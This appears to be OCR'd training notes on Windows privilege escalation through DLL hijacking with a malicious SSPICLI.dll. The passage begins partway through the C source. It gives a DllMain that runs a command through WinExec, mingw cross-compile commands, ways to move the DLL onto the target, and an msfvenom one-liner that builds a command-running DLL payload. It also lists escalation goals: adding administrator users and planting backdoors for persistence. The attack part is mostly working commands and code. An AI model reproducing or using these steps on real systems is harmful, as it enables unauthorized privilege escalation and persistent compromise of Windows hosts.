 ```
	 return 0;									#if you want to run different commands from here, jhust change what the WinExec line does. make sure you escape special characters with backslashes!
	}
	BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
	{
	 execCommand();
	 return 0;
	}
	########## SSPICLI.c ##########


		- ways we can escalate our privileges?
			1. Created user, added that user to both remote desktop users and administrators
			2. add existing users to privilege groups
			3. establish persistence by creating backdoors
			
3. Compule the raw C source code into an unlined C object 

	i686-w64-mingw32-g++ -c SSPICLI.c -o SSPICLI.o

4. Create the DLL from unlinked C object 

	i686-w64-mingw32-g++ -shared -o SSPICLI.dll SSPICLI.o -Wl,--out-implib,SSPICLI.a

5. Ensure we have the SSPICLI.dll

	ls SSPICLI*
	
		#should return the SSPICLI.c, SSPICLI.dll, SSPICLI.o, and SSPICLI.a


6. Transfer file to location 
	
	- python HTTP server
		linops > python3 -m http.server
		winops > navigate to your linops_ip:8000 in your browser then hit enter to open up the http server and directly download the files
	- SCP
	- Base64
	



```


# SGT WILSON's C SOURCE FILE STUFF FROM SLACK

```

Sgt Wilson, Rocky  11:09 AM
msfvenom -p windows/exec CMD="cmd /C whoami > C:\\findme.txt" -f dll > SSPICLI.dll
(edited)


Sgt Wilson, Rocky  11:22 AM
If you don't want to do the compilation over and over.


Sgt Wilson, Rocky  11:28 AM
Get-AppxPackage -AllUsers| Foreach {Add-AppxPackage -DisableDevelopmentMode -Register "$($_.InstallLocation)\AppXManifest.xml"}
```
